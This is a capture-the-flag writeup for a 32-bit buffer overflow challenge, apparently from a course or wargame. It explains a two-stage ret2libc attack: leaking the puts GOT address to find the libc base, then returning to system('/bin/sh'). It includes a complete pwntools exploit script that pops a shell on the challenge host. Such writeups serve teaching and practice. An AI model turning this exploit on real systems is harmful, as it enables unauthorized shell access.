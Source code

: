 Script/Command used (Writeup)
------------------
We're not given any leaked address here so we basically need 2 payload. One to leak the libc base and then another to actually pop a shell. We use the `puts(puts)` technique to print out the address of the `puts` function. Note that we need to print the GOT entry for `puts` not the PLT entry, else we won't get the dynamic libc address, but rather some internal address.
We use the same format exploit:
 - padding (to overflow buffer)
 - address of function to return to (in this case `puts`)
 - return address for after our function call is complete
 - arguments for the function we called (in this case the address of the `puts` GOT entry)

Usually we don't care what our return address for after the function call, is, because we would have had our shell already. However this time we do care because we need to execute a second payload. So we set this return address to `main` so that the code essentially starts from the beginning again.

With our libc leaked address, we subtract the offset for `puts` and successfully get the libc base.

Then when the `vuln` function runs again we can enter new input with a buffer overflow again. This time we just simply return to `system`, specifying a dummy return address and the address of the bin/sh string for the parameter.

Exploit:
```
from pwn import *

PROG_NAME = "./ropme"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 6004
REMOTE_LIBC = "./libc-2.23.so"
LOCAL_LIBC = "/lib32/libc.so.6"
libc = ELF("./libc-2.23.so")

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
    libc = ELF(REMOTE_LIBC)
else:
    p = process(PROG_NAME)
    elf = p.elf
    libc = ELF(LOCAL_LIBC)

p.recvlines(2)

payload = b'A'*(0x8+0x4)
payload += p32(elf.plt['puts'])
payload += p32(elf.symbols['main'])
payload += p32(elf.got['puts'])

p.sendline(payload)

leak = u32(p.recvline().rstrip()[:4])
libc_base = leak - libc.symbols['puts']
libc.address = libc_base
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh'))

p.recvlines(2)

payload = b'A'*(0x8+0x4)
payload += p32(system_addr)
payload += p32(0xdeadbeef)
payload += p32(binsh_addr)

p.sendline(payload)
```